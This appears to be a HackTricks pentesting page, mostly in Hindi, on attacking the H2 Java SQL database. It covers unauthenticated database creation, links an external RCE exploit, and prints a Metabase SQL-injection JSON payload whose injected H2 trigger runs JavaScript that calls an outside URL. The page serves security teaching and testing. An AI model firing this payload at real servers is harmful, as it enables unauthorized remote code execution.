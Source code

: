 # H2 - Java SQL database

{{#include ../../banners/hacktricks-training.md}}

{% embed url="https://websec.nl/" %}

Official page: [https://www.h2database.com/html/main.html](https://www.h2database.com/html/main.html)

## Access

आप एक **गैर-मौजूद डेटाबेस का नाम** निर्दिष्ट कर सकते हैं ताकि **मान्य क्रेडेंशियल्स के बिना एक नया डेटाबेस बनाया जा सके** (**अनधिकृत**):

![](<../../images/image (131).png>)

या यदि आप जानते हैं कि उदाहरण के लिए एक **mysql चल रहा है** और आप उस डेटाबेस का **नाम** और **क्रेडेंशियल्स** जानते हैं, तो आप बस इसे एक्सेस कर सकते हैं:

![](<../../images/image (201).png>)

_**HTB के बॉक्स हॉक से ट्रिक।**_

## **RCE**

H2 डेटाबेस के साथ संवाद करने के लिए एक्सेस होने पर, इसे RCE प्राप्त करने के लिए इस एक्सप्लॉइट की जांच करें: [https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)

## H2 SQL Injection to RCE

[**इस पोस्ट**](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) में एक पेलोड समझाया गया है जो **H2 डेटाबेस के माध्यम से RCE प्राप्त करने के लिए** एक **SQL Injection** का दुरुपयोग करता है।
```json
[...]
"details":
{
"db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
"advanced-options": false,
"ssl": true
},
[...]
```
{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}
